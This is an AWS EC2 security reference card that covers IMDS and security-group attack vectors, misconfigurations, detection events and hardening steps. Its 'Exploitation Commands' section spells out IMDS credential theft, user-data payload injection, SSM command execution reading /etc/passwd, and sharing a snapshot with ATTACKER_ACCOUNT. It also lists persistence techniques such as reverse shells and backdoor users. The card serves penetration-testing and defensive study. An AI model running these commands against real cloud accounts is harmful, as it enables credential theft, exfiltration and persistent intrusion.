

#  AWS EC2 Security



> **Category**: COMPUTE

Elastic Compute Cloud (EC2) provides virtual servers with instance metadata service (IMDS) and security groups. IMDS credential theft via SSRF is the #1 EC2 attack vector - the Capital One breach exploited this.

## Quick Stats

| Risk Level | AZ-Specific | 169.254.169.254 | + NACLs |
| --- | --- | --- | --- |
| **CRITICAL** | **Regional** | **IMDS** | **SGs** |

## Service Overview

### Instance Metadata Service (IMDS)

IMDS at 169.254.169.254 provides instance metadata including IAM role credentials. IMDSv1 allows simple GET requests; IMDSv2 requires a session token, blocking most SSRF attacks.

> Attack note: SSRF to IMDS is the most common cloud credential theft technique

### Security Groups & Access

Security groups act as virtual firewalls controlling inbound and outbound traffic. SSH (22), RDP (3389), and admin ports exposed to 0.0.0.0/0 are critical vulnerabilities.

> Attack note: Open security groups are constantly scanned by automated botnets

## Security Risk Assessment

`█████████░` **9.0/10** (CRITICAL)

EC2 instances with IMDSv1 enabled are vulnerable to SSRF-based credential theft. Open security groups and public snapshots containing secrets are also major attack vectors.

## ⚔️ Attack Vectors

### IMDS Exploitation

- SSRF to 169.254.169.254
- Steal IAM role credentials
- Access user-data scripts
- Retrieve SSH public keys
- Get instance identity document

### Instance Compromise

- Open SSH/RDP to internet
- Weak or default credentials
- Vulnerable AMI applications
- User data with secrets
- Unpatched software

## ⚠️ Misconfigurations

### Network Security

- Security group allows 0.0.0.0/0 ingress
- All ports open in security group
- No egress filtering
- Public IP with sensitive services
- Missing VPC flow logs

### Instance Security

- IMDSv1 enabled (not v2 required)
- EBS volumes not encrypted
- Public AMIs with secrets
- User data contains credentials
- Over-privileged instance role

## 🔍 Enumeration

**List All Instances**
```bash
aws ec2 describe-instances
```

**List Security Groups**
```bash
aws ec2 describe-security-groups
```

**Find Public Snapshots**
```bash
aws ec2 describe-snapshots \\
  --owner-ids self --query 'Snapshots[?Public]'
```

**Query IMDS (from instance)**
```bash
curl http://169.254.169.254/latest/meta-data/
```

**Get User Data**
```bash
curl http://169.254.169.254/latest/user-data
```

## 🔑 Credential Theft

### IMDS Credential Theft

- Get role name from IMDS
- Retrieve temporary credentials
- Use creds externally
- Credentials valid for hours
- Full role permissions

### Other Credential Sources

- User data scripts
- Environment variables
- EBS volume contents
- Memory dumps
- Application configs

> **Key insight:** IMDS credentials often have overly broad permissions. Check what the role can access.

## 🔗 Persistence

### Instance-Based

- Add SSH authorized_keys
- Create backdoor user
- Install reverse shell
- Modify startup scripts
- SSM agent backdoor

### AWS-Based

- Create AMI with backdoor
- Modify user data
- Create Lambda trigger
- Add SSM document
- Scheduled SSM commands

## 🛡️ Detection

### CloudTrail Events

- RunInstances - new instance
- ModifyInstanceMetadataOptions
- CreateImage - AMI creation
- ModifySecurityGroupRules
- CreateSnapshot

### Indicators of Compromise

- Unusual IMDS access patterns
- GuardDuty UnauthorizedAccess
- VPC flow log anomalies
- Credential use from new IPs
- Security group modifications

## Exploitation Commands

**Steal IAM Role Credentials**
```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
# Then: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<role-name>
```

**Inject User Data (Stop First)**
```bash
aws ec2 modify-instance-attribute \\
  --instance-id i-xxx \\
  --user-data file://payload.sh
```

**SSM Remote Command Execution**
```bash
aws ssm send-command \\
  --instance-ids i-xxx \\
  --document-name AWS-RunShellScript \\
  --parameters 'commands=["id", "cat /etc/passwd"]'
```

**Open Security Group**
```bash
aws ec2 authorize-security-group-ingress \\
  --group-id sg-xxx \\
  --protocol tcp --port 22 --cidr 0.0.0.0/0
```

**Create Backdoor AMI**
```bash
aws ec2 create-image \\
  --instance-id i-xxx \\
  --name "backup-$(date +%s)"
```

**Copy Snapshot Cross-Account**
```bash
aws ec2 modify-snapshot-attribute \\
  --snapshot-id snap-xxx \\
  --attribute createVolumePermission \\
  --operation-type add --user-ids ATTACKER_ACCOUNT
```

## Policy Examples

### ❌ Dangerous - Allow All Traffic

```json
{
  "IpPermissions": [{
    "IpProtocol": "-1",
    "IpRanges": [{"CidrIp": "0.0.0.0/0"}]
  }]
}
```

*Allows ALL traffic from ANYWHERE - complete exposure*

### ✅ Secure - Least Privilege

```json
{
  "IpPermissions": [{
    "IpProtocol": "tcp",
    "FromPort": 443,
    "ToPort": 443,
    "IpRanges": [{"CidrIp": "10.0.0.0/8"}]
  }]
}
```

*Only HTTPS from internal network - proper restriction*

### ❌ Dangerous - SSH Open

```json
{
  "IpPermissions": [{
    "IpProtocol": "tcp",
    "FromPort": 22,
    "ToPort": 22,
    "IpRanges": [{"CidrIp": "0.0.0.0/0"}]
  }]
}
```

*SSH open to internet - brute force target*

### ✅ Secure - VPC Only

```json
{
  "IpPermissions": [{
    "IpProtocol": "tcp",
    "FromPort": 22,
    "ToPort": 22,
    "UserIdGroupPairs": [{
      "GroupId": "sg-bastion"
    }]
  }]
}
```

*SSH only from bastion security group*

## Defense Recommendations

### 🔐 Enforce IMDSv2

Require session tokens for IMDS access - blocks most SSRF attacks.

```bash
aws ec2 modify-instance-metadata-options \\
  --instance-id i-xxx --http-tokens required
```

### 🚫 Restrict Security Groups

No 0.0.0.0/0 ingress rules. Use specific CIDR ranges or security groups.

```bash
aws ec2 authorize-security-group-ingress \\
  --cidr 10.0.0.0/8 --port 443
```

### 🔒 Encrypt EBS Volumes

Enable default encryption for all new volumes.

```bash
aws ec2 enable-ebs-encryption-by-default
```

### 📝 Use SSM Instead of SSH

No open ports, centralized logging, IAM authentication.

```bash
aws ssm start-session --target i-xxx
```

### 🌐 Enable VPC Flow Logs

Monitor network traffic for anomalies.

```bash
aws ec2 create-flow-logs \\
  --resource-type VPC --resource-ids vpc-xxx
```

### 🔍 Private Snapshots Only

Never make snapshots public. Use RAM for cross-account sharing.

```bash
aws ec2 modify-snapshot-attribute \\
  --snapshot-id snap-xxx --attribute createVolumePermission \\
  --operation-type remove
```

---

*AWS EC2 Security Card*

*Always obtain proper authorization before testing*
